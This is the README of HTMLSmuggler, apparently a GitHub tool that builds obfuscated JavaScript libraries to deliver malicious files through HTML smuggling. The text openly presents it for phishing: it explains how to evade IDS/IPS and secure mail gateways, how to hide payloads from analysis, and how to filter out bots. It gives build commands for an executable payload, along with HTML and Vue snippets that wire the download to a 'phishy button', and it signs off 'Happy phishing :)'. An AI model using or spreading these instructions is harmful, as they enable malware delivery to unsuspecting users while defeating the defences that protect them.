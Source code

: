 # HTMLSmuggler ✉️

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The full explanation what is HTML Smuggling may be found [here](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/).

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to bypass IDS and IPS system and deliver embedded payload to the target user system. An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload makes it impossible to extract your payload from javascript manually.
* Powerful client-side bots and headless crawlers detection library that doesn't share your payloads with smart secure mail gateways and their friends.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>   Path to payload file you want to smuggle
      -n, --name <string>      Name of file, that would be downloaded
      -t, --type <string>      Contet-Type of downlonaded file (default: "application/octet-stream")
      -f, --function <string>  Name of exported function (default: "download")
      -c, --compress           Enable payload compression (gzip)
      -a, --antibot            Enable bot detection and block them (recommended)
      -h, --help               display help for command
    ```

## Usage

### Preparation steps

1. **(Optional)** Modify [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    > ⚠️ AVOID USAGE OF PAYLOADS BIGGER THAN 3 MiB (see [FAQ](#faq))

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c -a
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` (or custom specified with `-f` flag) function.

    > `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
    >
    > `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |
